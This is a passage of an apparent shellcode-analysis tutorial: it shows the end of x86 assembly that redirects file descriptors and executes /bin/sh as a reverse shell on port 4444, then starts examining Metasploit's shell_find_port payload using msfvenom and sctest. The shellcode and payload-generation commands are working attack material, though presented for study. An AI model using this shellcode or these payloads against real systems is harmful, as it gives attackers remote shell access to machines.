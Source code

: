 ```c
       mov al, 0x3F    ; inserting the hex SYS_DUP2 syscall
       int 0x80        ; syscall
       dec ecx         ; the argument for file descriptor(2-stderr,1-stdout,0-stdin)
       jns looper

; Execute /bin/sh with execve

       xor ebx, ebx
       mul ebx

       ; PUSH //bin/sh (8 bytes)
	push edx	; push nullbyte to the stack
	push 0x68732f2f
	push 0x6e69622f

	mov ebx, esp
	mov ecx, edx

	mov al, 0xB     ; inserting the hex for SYS_EXECVE Syscall
	int 0x80
```

Using the reverse_tcp_shell payload will spawn a reverse shell on port 4444

## Analyzing the Metasploit shell_find_port Payload

First, i will generate our MSF shellcode in raw format, using msfvenom.

```bash
msfvenom -p linux/x86/shell_find_port -f raw > shell_find_port.bin
```
where:
* -p payload
* -f format of generated payloads. For complete list type msfvenom --help-formats

The next step will be to utilize "sctest" on the raw version of the reverse_shell.

```bash
cat shell_find_port.bin | ./sctest -vvv -Ss 10000 -G shell_find_port_shellcode.dot
dot shell_find_port_shellcode.dot -T png > shell_find_port_shellcode.png
```

We will be presented with this graphical presentation by visiting the shell_find_port_shellcode.png
